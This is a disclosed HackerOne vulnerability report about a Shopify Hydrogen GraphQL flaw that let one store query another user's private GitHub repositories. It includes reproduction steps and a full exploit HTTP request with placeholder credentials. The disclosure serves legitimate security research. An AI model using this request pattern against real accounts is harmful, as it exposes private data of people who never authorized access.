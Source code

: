 # Attacker is able to query Github repositories of arbitrary Shopify Hydrogen Users 

## Report Details
- **Report ID**: 1692788
- **URL**: https://hackerone.com/reports/1692788
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-09-06T21:15:39.916Z
- **Disclosed**: 2023-03-09T18:45:57.372Z

## Reporter
- **Username**: kun_19
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
Shopify Hydrogen is a framework (based on React) that let you build personalized custom storefronts in a performant way. The Hydrogen app from the Shopify App Store supports to create a custom storefront with the Hydrogen framework (initial setup, deployment to Oxygen, etc.). Therefore, the user has to connect his GitHub account to the Hydrogen App.
An attacker is able to query the GitHub account / the private repositories of any Hydrogen user.

## Shops Used to Test:
https://19kun-27.myshopify.com (Victim) (Shopify Plus Store)
https://19kun-19.myshopify.com (Attacker) (Development Store)

## Steps To Reproduce:

  1.  (Victim) Create a Shopify Plus store and install the Hydrogen app from the Shopify App Store  (https://apps.shopify.com/hydrogen)
  2.  (Victim) Open the Hydrogen app and connect  a  Github account (make sure the Github account has several private repositories)
  3. (Victim) Click on "Create Storefront":  
{F1910344}
  4. (Victim) You should now see the connected GitHub account, including the private repositories:  
{F1910353}
  5. (Victim) In the background some HTTP requests are sent to the server, including to the vulnerable GraphQL operation **GitHubRepositoriesQuery**. Remember the `ownerName` and the `ownerId` of the victim for exploitation:  
████
  6. (Attacker) Log in to your store (e.g. a development store) and send following request with your attacker account to the server. Replace  the `<OWNER_NAME>` and `<OWNER_ID>` of the victim from the previous step and also replace the other placeholders `<ATTACKER_SHOPIFY_DOMAIN>`, `<COOKIES_ATTACKER>` and `<CSRF_TOKEN_ATTACKER>`:  
```
POST /admin/internal/web/graphql/core?operation=GitHubRepositoriesQuery&type=query HTTP/2
Host: <ATTACKER_SHOPIFY_DOMAIN>
Cookie: <COOKIES_ATTACKER>
Content-Length: 778
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
X-Csrf-Token: <CSRF_TOKEN_ATTACKER>
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Content-Type: application/json
Accept: application/json
X-Shopify-Web-Force-Proxy: 1
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7

{
   "operationName":"GitHubRepositoriesQuery",
   "variables":{
      "ownerName":"<OWNER_NAME>",
      "ownerId":<OWNER_ID>,
      "searchQuery":"",
      "pageSize":15
   },
   "query":"query GitHubRepositoriesQuery($ownerName: String!, $ownerId: Int, $searchQuery: String, $pageSize: Int, $cursor: String) {\n  onlineStore {\n    versionControlGithub {\n      repositories(\n        ownerName: $ownerName\n        ownerId: $ownerId\n        first: $pageSize\n        searchQuery: $searchQuery\n        after: $cursor\n      ) {\n        totalCount\n        endCursor\n        hasNextPage\n        nodes {\n          id\n          name\n          description\n          writeAccess\n          defaultBranchName\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"
}
``` 
  7. (Attacker) The attacker should now be able to see the private repositories of the victim in the server's response (like in ████)

## Impact

An attacker is able to use the GitHub access token of arbitrary users to get private information about the connected GitHub account (e.g. private repositories)

## Attachments
- create_storefront.png
- connect_repository.png
